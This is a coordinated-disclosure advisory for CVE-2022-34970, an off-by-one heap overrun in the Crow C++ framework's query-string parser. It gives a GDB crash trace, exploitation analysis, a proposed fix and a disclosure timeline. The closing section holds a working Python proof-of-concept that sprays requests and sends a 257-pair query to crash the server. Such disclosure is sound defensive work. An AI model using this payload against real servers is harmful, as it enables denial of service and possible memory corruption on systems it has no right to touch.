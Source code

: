 <h2><b><i>Summary</i></b></h2>

Crow version prior to [v1.0+4](https://github.com/CrowCpp/Crow/releases/tag/v1.0%2B4) are vulnerable to an off-by-one buffer
overrun due to faulty implementation of qs_parse function within
query_string.h. An attacker can craft special input which leads to an overrun
in the qs_kv buffer, which can lead to either Information Disclosure, Denial of
Service, or Remote Code Execution (though this is admittedly hard to exploit).
See sections below for details.

Affected: Crow version prior to <a src="https://github.com/CrowCpp/Crow/releases/tag/v1.0%2B4">v1.0+4</a>

<a src="https://github.com/CrowCpp/Crow">https://github.com/CrowCpp/Crow</a> - maintained version (fork)

<a src="https://github.com/ipkn/crow">https://github.com/ipkn/crow</a> - original version

CVE: [CVE-2022-34970](https://www.cve.org/CVERecord?id=CVE-2022-34970)

CVSS: 9.8 (Critical - according to advisory), CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
<blockquote>
"Crow is a C++ framework for creating HTTP or Websocket web services. It uses
 routing similar to Python's Flask which makes it easy to use. It is also
 extremely fast, beating multiple existing C++ frameworks as well as non C++
 frameworks."</blockquote> (source: project's README.md)<br></br>

<b>IMPORTANT:</b> This vulnerability is reported under the 90-day policy
(version 2021), i.e. this report will be shared publicly with the defensive
community on 26 September 2022 if a patch/fix is not available by that time, or
30 days after the fix becomes available. For details please see: <a
src="https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html">https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html</a>

<b>NOTE:</b> The vulnerable function was copied from the [qs_parse project](https://github.com/bartgrantham/qs_parse), but the
project has been inactive for the last 10 years and as such I decided it makes
more sense to report this straight to CrowCpp/Crow project as it's both
maintained and active. Similar reason for not reporting it to the inactive
original Crow project.


<h2><b><i>Vulnerability details</i></b></h2>

The vulnerability is located in a function called qs_parse, which is executed to
parse URL's query string on each request. Technically it's an inline function
which is called from query_string's constructor.

The off-by-one buffer overrun happens due to an iterator variable ```i``` being
incremented one time too many in case there is more than a maximum number
(256) of key-value pairs in the query.

```https://example.com/?a&a&a&...``` at least 257 of these...&a&a&a

Due to the unconditional increment of ```i``` on [line 126](https://github.com/CrowCpp/Crow/blob/6f1baed6d36640bf36b10822fe8e65cd2fc75dd0/include/crow/query_string.h#L126), the value of ```i``` later
in the function will be 257.

As such, the last loop in the qs_parse function tries to process the 256th
element of qs_kv as a key-value pair, and in effect dereferences a pointer
outside of the buffer (which has only 256 elements).
Given that the buffer is technically part of an std::vector, this leads to using
a potentially attacker controlled value previously planted on the heap right
after the buffer. In my experiments I was able to confirm this - note below the
controlled value of ```s=0x4141414141414141``` in frame #1 in the GDB listing from
the moment of crash.
```
pwndbg> where
#0  __m128i_shift_right (offset=1, value=<error reading variable: Cannot access
 memory at address 0x4141414141414140>)
 at ../sysdeps/x86_64/multiarch/varshift.h:27
#1  __strcspn_sse42 (s=0x4141414141414141 <error: Cannot access memory at
 address 0x4141414141414141>, a=<optimized out>)
 at ../sysdeps/x86_64/multiarch/strcspn-c.c:143
#2  0x00005555555a126f in crow::HTTPParser<crow::Connection<crow::SocketAdaptor,
 crow::Crow<ExampleMiddleware>, ExampleMiddleware> >::on_message_complete
 (crow::http_parser*) ()
#3  0x0000555555571129 in crow::http_parser_execute
 (crow::http_parser*, crow::http_parser_settings const*, char const*, unsigned
 long) ()
#4  0x000055555556954e in crow::Connection<crow::SocketAdaptor,
 crow::Crow<ExampleMiddleware>, ExampleMiddleware>::do_read()::{lambda
 (std::error_code const&, unsigned long)#1}::operator()(std::error_code const&,
 unsigned long) const [clone .isra.0] ()
```


<h3><b><i> Exploitation and potential consequences</i></b></h3>

As demonstrated, an attacker can attempt to remotely "massage" the heap in a way
that would place an attacker-controlled or attacker-chosen pointer value in
memory right after the qs_kv buffer. In such a case the qs_parse key/value
processing code would operate on the target string (memory) chosen by the
attacker.

Note that up until this point I have empirically confirmed what's in this
report. Two paragraphs below however are speculative, but I believe them to be
accurate.

In case the actual web service echos back a URL query parameter in any way, this
may lead to information disclosure. This is subject to the attacker either
knowing the memory layout or being able to manipulate the heap layout in such a
way, that a selected valid pointer would be placed after the qs_kv buffer.

Furthermore, in case the attacker has good understanding of the memory layout
and access to the binaries, they can use the write primitive in the processing
loop to replace a selected '&' in memory with a null byte '\0'. While on the
surface this sounds like an unlikely exploitation vector, this technically
gives the attacker the possibility of changing the chosen byte of value 0x26 in
memory to 0x00. If this would be applied to e.g. function pointers or other
pointers, it might eventually lead to gaining full arbitrary code execution
capabilities by the attacker. Just to be on the safe side I would recommend
treating this as possible unless proven otherwise (especially that it has been
historically proven that such conditions are exploitable).

Failed exploitation leads to the server crashing.


<h3><b><i>Proposed fix</i></b></h3>


Before actually incrementing the variable ```i``` check whether it can be
incremented (i.e. if post-increment it would be still less than 256).


<h3><b><i>Proof of Concept exploit</i></b></h3>

```python
#!/usr/bin/python3
import socket

host = "127.0.0.1" 
port = 18080

def req(payload):

  client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  client.connect((host, port))

  request = f"GET /{payload} HTTP/1.1\r\nHost:{host}\r\n\r\n" 
  client.send(request.encode())

  response = client.recv(4096) 
  http_response_len = len(response)

  print(f"[RECV] - length: {http_response_len}\n") 
  print(response.decode('utf-8'))

payload = '?' + ("a&" * 257)

for i in range(100): 
  req('A' * (1970 + i))

req(payload) 
```

<h3><b><i>Timeline</i></b></h3>
<ul>
  <li>2022-06-26: Vulnerability discovered.</li>
  <li>2022-06-27: Sent vulnerability report to maintainer of Crow, got confirmation of received report.</li>
  <li>2022-06-28: Maintainer released the patch for fixing the issue.</li>
  <li>2022-07-29: Published report.</li>
  <li>2022-08-04: CVE assigned - CVE-2022-34970</li>
</ul>

